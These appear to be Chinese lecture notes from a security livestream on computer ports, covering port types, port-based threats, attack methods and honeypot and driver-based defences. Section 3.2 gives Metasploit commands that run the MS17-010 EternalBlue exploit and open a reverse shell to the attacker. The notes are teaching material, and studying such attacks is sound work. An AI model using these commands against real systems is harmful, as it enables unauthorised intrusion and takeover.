

# 课程 P1-103：从安全角度看计算机端口 🔐


在本节课中，我们将从信息安全的角度，系统地学习计算机端口的相关知识。我们将探讨端口的基本概念、为何需要重视端口安全、攻击者如何利用端口，以及未来端口安全的发展与防护设想。

---

## 概述 📖

计算机端口是网络通信的入口，如同房屋的门窗。理解端口安全对于防御网络攻击至关重要。本节课将涵盖端口分类、常见威胁、攻击演示以及防护思路。

---

## 1. 端口基础与分类

计算机端口主要分为三大类：**公认端口**、**注册端口**和**动态/私有端口**。这些端口基于 **TCP** 和 **UDP** 等协议进行数据传输。

*   **TCP** 和 **UDP** 各有约6万多个端口，总计约13万个。
*   微软官方的端口库并不详尽，存在许多“未知端口”。
*   从安全角度，我们可以将端口简单归类为“安全端口”和“不安全端口”，但需注意，即使是公认的安全端口（如 **80**、**8080**）也存在被利用的风险。

---

## 2. 为何要重视端口安全？

端口是大多数网络攻击的必经之路。几乎所有网络活动都依赖于端口。

以下是常见的、与端口相关的威胁类型：

*   **木马程序**：如冰河木马、灰鸽子，需要特定端口建立连接和控制通道。
*   **后门程序**：攻击者用于维持访问权限的隐蔽入口，必然涉及端口。
*   **病毒蠕虫**：如“永恒之蓝”勒索病毒利用 **445** 端口进行传播。
*   **漏洞利用**：许多漏洞（如 **MS17-010**）的利用过程需要与目标端口交互。
*   **Web攻击**：**80**、**443**、**8080** 等Web服务端口是常见攻击面。
*   **应用程序**：像QQ等软件的正常运行也需要端口支持。

**核心概念**：可以将端口理解为“门”。服务开放端口就像打开了门；关闭端口则像锁上门。但攻击者总会尝试寻找未上锁的“门”或“窗户”（其他入口）。

---



## 3. 攻击视角：端口如何被利用？


上一节我们了解了端口面临的威胁，本节我们来看看攻击者具体如何利用端口。攻击流程通常遵循“信息收集-漏洞探测-利用-维持访问”的模式。

### 3.1 信息收集与端口扫描

攻击的第一步是发现目标开放的端口。**Nmap** 是最常用的端口扫描工具。通过扫描，攻击者可以获知目标开启了哪些服务（如 **80/HTTP**、**3389/RDP**），从而推断可能存在的漏洞。

### 3.2 漏洞利用实例演示

坤坤大咖在直播中演示了利用 **MS17-010**（永恒之蓝）漏洞的过程。此漏洞主要针对 **445** 端口。

**攻击流程简述**：
1.  使用 **Metasploit** 框架搜索并加载对应的攻击模块。
2.  设置目标IP地址（RHOSTS）和端口（RPORT，默认为445）。
3.  配置反向连接（Reverse Shell）的监听IP和端口（LHOST, LPORT），例如从目标的 **4444** 端口反弹回攻击者的 **8080** 端口。
4.  执行攻击（`exploit`），若目标存在漏洞且端口开放，则可获取系统控制权（Shell）。

**关键代码/命令示例**：
```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS [目标IP]
set LHOST [攻击者IP]
exploit
```

### 3.3 攻击链中的端口作用

在整个攻击链中，端口扮演着关键角色：
*   **初始访问**：通过扫描发现开放端口（如 **445**）。
*   **漏洞利用**：向特定端口（如 **445**）发送精心构造的攻击载荷。
*   **命令与控制**：建立反向Shell时，需要指定一个端口（如 **4444**）进行通信。
*   **维持访问**：植入的后门或木马会监听某个端口，等待攻击者连接。

---

## 4. 端口安全的未来发展与防护设想

了解了攻击手法后，我们自然会思考如何防御。本节将探讨端口安全未来的挑战和一些防护设想。

### 4.1 挑战：与Windows平台的深度绑定

端口威胁与操作系统生态密切相关。由于 **Windows** 系统市场占有率极高，大多数病毒、木马和漏洞都针对其设计。端口安全与Windows平台深度捆绑，用户基数越大，面临的端口威胁也越广泛。

### 4.2 防护设想一：对外欺骗（蜜罐）

一种主动防御思路是设置“蜜罐”。即在服务器上部署虚假的开放端口服务，诱骗攻击者进行攻击。

**工作原理**：
1.  攻击者使用Nmap扫描，会发现这些“蜜罐端口”。
2.  当攻击者尝试利用这些端口时，所有攻击行为会被记录和溯源。
3.  防守方可以分析攻击手法，甚至进行反制。

### 4.3 防护设想二：自动拦截驱动

坤坤大咖的团队正在研究一种基于驱动的自动拦截方案。该驱动核心具备多种能力：

以下是该驱动设想的核心能力模块：

*   **检测能力**：监控系统端口活动。
*   **判断能力**：区分正常连接与恶意行为。
*   **数据及特征识别**：利用特征库识别已知威胁。
*   **学习能力**：通过用户行为学习，提升判断准确性。
*   **自我保护**：防止驱动本身被恶意软件关闭或绕过。

这个设想的核心是**通过驱动实现深度系统监控和智能学习**，从而在恶意行为发生前或发生时进行拦截。


---


## 总结 🎯


本节课我们一起学习了计算机端口的安全知识。

我们首先了解了端口的分类和基础概念，明白了端口如同网络世界的门户。接着，我们探讨了端口为何成为安全焦点，列举了木马、病毒、漏洞利用等多种通过端口发起的威胁。然后，我们从攻击者的视角，学习了端口扫描、漏洞利用（以MS17-010为例）的完整流程，看到了端口在攻击链中的关键作用。最后，我们展望了端口安全面临的挑战，并介绍了“蜜罐”和“智能拦截驱动”两种前沿的防护设想。

**核心要点**：端口安全是网络安全的基石。对于防守方而言，最小化开放端口、及时更新补丁、部署防火墙和入侵检测系统是基础。未来，结合欺骗技术和智能主动防御，可能是提升端口安全水平的新方向。


---
*注：本教程根据漏洞银行第103期直播内容整理，旨在知识分享与学习。所有安全技术应在合法授权范围内使用。*